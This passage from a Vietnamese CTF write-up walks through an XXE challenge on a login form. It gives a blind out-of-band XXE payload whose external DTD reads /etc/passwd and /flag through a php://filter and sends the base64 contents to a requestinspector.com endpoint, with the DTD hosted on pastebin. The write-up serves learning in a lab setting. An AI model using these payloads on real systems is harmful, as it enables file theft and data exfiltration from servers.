   ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xss5.jpg)


  

 >Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}

## Đề 3: XXD
### Cách 1:
```
url: http://146.190.115.228:13373/

```
 ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xxe0.jpg)
 
Đến với giao diện trang, đây là 1 form đăng nhập, kết quả sẽ được ghi lại, vì vậy mình thử bắt request bằng burpsuite xem kết quả như thế nào.
 
  ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xxe_0.jpg)
 
Như trên có thể thấy trang web gửi thông tin mình nhập vào về phía server bằng xml, đến đây nghĩ đến ngay lỗ hổng xxe.
Thử 1 vài payload trên Payload All The Things, nhưng vẫn trả status về 1 nên em chuyển hướng sang blind xxe.
Sau 1 hòi thử thì đến đây em dùng dạng "XXE OOB with DTD and PHP filter" để tấn công:
 
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```
+ Bước đầu em đến https://requestinspector.com/ và tạo 1 endpoint, lúc này tạo được Request-Inspector endpoint như sau:  https://requestinspector.com/inspect/01gq03f0g3vk1p7dfpsm4060m0


+ Sau đó em tạo 1 file xml thứ cấp có nội dung: 
 
 ```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://requestinspector.com/inspect/01d0fpjtce5cd5ae80menm0hyw?%data;'>">
 ```
 
Rồi đến 'paste bin' và dán nội dung trên, chuyển về dạng raw output có dạng https://pastebin.com/raw/EhmjFvs0
